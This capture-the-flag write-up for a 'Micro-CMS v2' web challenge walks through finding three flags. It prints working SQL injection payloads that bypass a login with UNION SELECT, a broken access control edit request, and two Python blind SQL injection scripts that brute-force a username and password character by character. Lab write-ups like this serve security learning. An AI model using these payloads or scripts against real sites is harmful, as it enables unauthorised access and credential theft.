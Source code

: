 # Micro-CMS v2

The website contains 3 flags, we need to find them all.


Landing page is:

>![](imgs/2021-07-16-10-52-50.png)

Seems like they fixed the vulnerabilities of the previous `Micro-CMS v1` challenge.

>![](imgs/2021-07-16-10-54-39.png)


## Flag 0 - SQL injection

We can crash the login page by entering the username `'`

>![](imgs/2021-07-16-11-38-57.png)

We revealed the SQL query used to retrieve the password of the provided `username`, the DB in use (MariaDB) and the language of the web app (python 2.7)

If we send `username=' or '1'='1&password=pass123` we bypass the check on the username but we receive '`Incorrect password`, as the password retrieved from the database doesn't match the password we provide in the form.

We can leverage the `UNION` query to control the password loaded from the database. This password will later be checked against the provided `password` variable in the form.

Since we can control both of them, we can log in without knowing an existing username and password pair.

The POST data we send is:

`username=' UNION SELECT "newpass" #&password=newpass`

and we successfully log in

>![](imgs/2021-07-16-13-22-51.png)

We are assigned a JWT Auth token and the flag can be found in the `Private Page`.




## Flag 1 - Broken access control

Every time we try to edit a post we are redirected to the `login` page because we are required to be authenticated. However, what if we try to directly edit the post with Burp, without following the expected logic flow? It shouldn't be possible if the access to resources is well implemented. But is it?

Not really.

Our request is:

>![](imgs/2021-07-16-11-56-18.png)

And we get the flag in the response:

>![](imgs/2021-07-16-11-57-22.png)


## Flag 2 - Blind SQL injection bruteforce

Once we are logged in, we notice a html comment that suggests us to find the real username and password if we don't have them yet:

```html
<!-- You got logged in, congrats!  Do you have the real username and password?  If not, might want to do that! -->
```

And this is what we are going to do.


We can exploit the SQL vulnerability further. Here we have a blind SQL vulnerability that we can exploit to extract the username and the password one character at a time.

The condition that allows us to bruteforce the username is the `Invalid password` string that is printed out when the database query returns something.  
We can use the `LIKE` sql statement to make the username match to a certain pattern that we provide. For example we can use it to emulate a `startwith()` function (e.g. `WHERE username LIKE 'a%'` will match all the usernames that start with `a`)

The script we used to bruteforce the username is the following:

```python
import requests
import re

alphabet="abcdefghijklmnopqrstuvxywzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

url= "http://35.190.155.168/44c8933501/login"

username=""

for x in range(0,32):
    print("cicle: "+str(x))
    for letter in alphabet:
        temp = username+letter
        data= {
                "username": "' or username LIKE '{}%".format(temp),
                "password": 'temp'
                }
        page = requests.post(url,data=data)
        # if previous query returns a match -> Invalid password in response
        if re.search("Invalid password",page.text):
            username=temp
            print("MATCH: "+username)
            break
```

We end up with the username `lelah`.

We can now proceed bruteforcing the password, same approach.

```python
import requests
import re

alphabet="abcdefghijklmnopqrstuvxywzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

url= "http://35.190.155.168/44c8933501/login"

password=""

for x in range(0,32):
    print("cicle: "+str(x))
    for letter in alphabet:
        temp = password+letter
        data= {
                "username": "lelah' and password LIKE '{}%".format(temp),
                "password": 'temp'
                }
        page = requests.post(url,data=data)
        # if previous query returns a match -> Invalid password in response
        if re.search("Invalid password",page.text):
            password=temp
            print("MATCH: "+password)
            break
```

Char by char we retrieve the full password: `romaine`.

We can now log in using the recovered username and password.  
The flag is waiting for us right after the login.

>![](imgs/2021-07-16-19-55-43.png)
